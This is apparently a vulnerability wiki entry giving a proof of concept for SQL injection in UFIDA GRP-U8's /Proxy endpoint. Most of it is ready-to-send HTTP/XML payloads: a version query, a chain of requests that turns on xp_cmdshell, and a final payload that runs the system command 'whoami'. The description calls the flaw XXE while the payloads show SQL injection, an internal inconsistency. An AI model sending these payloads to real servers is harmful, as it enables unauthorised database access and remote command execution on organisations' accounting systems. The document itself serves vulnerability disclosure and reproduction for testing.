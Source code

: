 # UFIDA GRP-U8 Proxy SQL Injection CNNVD-201610-923

## Vulnerability Description

There is an XXE vulnerability in UFIDA GRP-u8. This vulnerability originates from the application's lack of loading of the external entity when parsing XML input, resulting in the loading of external SQL statements and command execution.

## Affect Version

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">UFIDA GRP-U8 administrative and business internal control management software (new government accounting system special edition)</span>

## Network surveying and mapping



## Vulnerability reappears

Vulnerability POC request package

```xml
POST /Proxy HTTP/1.1
Accept: Accept: */*
Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/4.0 (compatible; MSIE 6.0;) Host: host
Content-Length: 357
Connection: Keep-Alive
Cache-Control: no-cache


cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION> <NAME>AS_DataRequest</NAME><PARAMS><PARAM> <NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM> <NAME>Data</NAME><DATA format="text">select @@version</DATA></PARAM></PARAMS> </R9FUNCTION></R9PACKET>
```

After requesting, press F12 to view the source code to get the SQL statement query results



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-1.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-2.png)



You can also call `xp_cmdshell` to execute system commands (most of this system is `windows`)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-3.png)

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Note: Most of the xp_cmdshell module are not enabled by default</span>



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/yongyou-4.png)



You can use the following method to open the `xp_cmdshell method`

Send the following POST data in order (`Note that master is changed to the current database name`)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">use master</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'show advanced options',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec sp_configure 'xp_cmdshell',1</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">reconfigure</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

Send the following data successfully (or may fail)

```xml
cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">exec xp_cmdshell "whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>
```

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Error reported during execution java.sql.SQLException【Error code: 0; Related information: xxxxxx】Never mind</span>

After sending a request and using this module, the system command will be successfully requested to be executed.